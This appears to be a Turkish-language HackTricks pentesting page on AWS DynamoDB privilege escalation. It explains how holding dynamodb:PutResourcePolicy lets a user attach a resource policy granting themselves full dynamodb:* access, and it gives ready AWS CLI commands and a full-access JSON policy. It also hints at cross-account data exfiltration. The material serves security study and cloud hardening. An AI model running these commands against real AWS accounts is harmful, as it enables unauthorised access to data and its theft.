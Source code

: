 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

DynamoDB hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, ve isteğe bağlı olarak `dynamodb:GetResourcePolicy`

Mart 2024'ten itibaren, AWS DynamoDB için *kaynak tabanlı politikalar* sunmaktadır ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Yani, bir tablo için `dynamodb:PutResourcePolicy`'ye sahipseniz, kendinize veya başka bir kullanıcıya tabloya tam erişim verebilirsiniz.

`dynamodb:PutResourcePolicy`'yi rastgele bir kullanıcıya vermek genellikle yanlışlıkla olur; eğer yöneticiler `dynamodb:Put*` vermenin yalnızca kullanıcının veritabanına öğe eklemesine izin vereceğini düşünürse - ya da bu izin setini Mart 2024'ten önce verdilerse...

İdeal olarak, diğer potansiyel olarak hayati izinleri geçersiz kılmamak için `dynamodb:GetResourcePolicy`'ye de sahip olmalısınız, böylece yalnızca ihtiyaç duyduğunuz ek izinleri ekleyebilirsiniz:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Eğer mevcut politikayı alamıyorsanız, sadece aşağıdaki politikayı kullanın; bu, tablonuz üzerinde tam erişim sağlar:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Eğer bunu özelleştirmeniz gerekiyorsa, işte tüm olası DynamoDB eylemlerinin bir listesi: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Ve burada bir kaynak tabanlı politika aracılığıyla izin verilebilecek tüm eylemlerin bir listesi *VE bunlardan hangilerinin hesaplar arası kullanılabileceği (veri sızdırma düşünün!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Şimdi, `policy.json` politika belgesi hazır olduğuna göre, kaynak politikasını ekleyin:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Artık ihtiyaç duyduğunuz izinlere sahip olmalısınız.

### Post Exploitation

Bildiğim kadarıyla, sadece bazı AWS `dynamodb` izinlerine sahip olarak AWS'de yetki yükseltmenin **başka doğrudan bir yolu yoktur**. Tabloalardan **hassas** bilgileri okuyabilir (bu bilgiler AWS kimlik bilgilerini içerebilir) ve tablolara **bilgi yazabilirsiniz** (bu, diğer güvenlik açıklarını tetikleyebilir, örneğin lambda kod enjeksiyonları...) ancak bu seçeneklerin hepsi zaten **DynamoDB Post Exploitation sayfasında** dikkate alınmıştır:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Veri Akışlarını kötüye kullanarak veri oku

{{#include ../../../banners/hacktricks-training.md}}

